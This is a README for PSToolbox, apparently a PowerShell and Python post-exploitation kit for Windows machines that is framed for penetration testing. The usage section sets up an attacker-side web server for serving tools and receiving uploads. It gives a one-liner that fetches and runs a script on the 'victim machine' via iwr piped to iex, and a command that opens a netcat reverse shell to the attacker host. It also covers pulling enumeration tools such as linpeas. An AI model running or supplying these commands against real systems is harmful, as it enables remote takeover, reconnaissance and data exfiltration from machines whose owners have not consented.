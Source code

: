 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine.
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
*NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip and the web server port.

	#Show the current config
	Show-PSToolboxConfig
-
	#Reset the config
	Set-PSToolboxConfig
-
	#Download all linked files that match linpeas	
	gti -m linpeas
-	
	#Download a single toolbox item instead of doing a recursive search
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1'
-
	#download single item and save with different name
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1' -name 'ad.ps1'
-
	#Start a netcat reverse shell to the attacker host
	Start-Shell -Type NC -port 4444
-
This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments


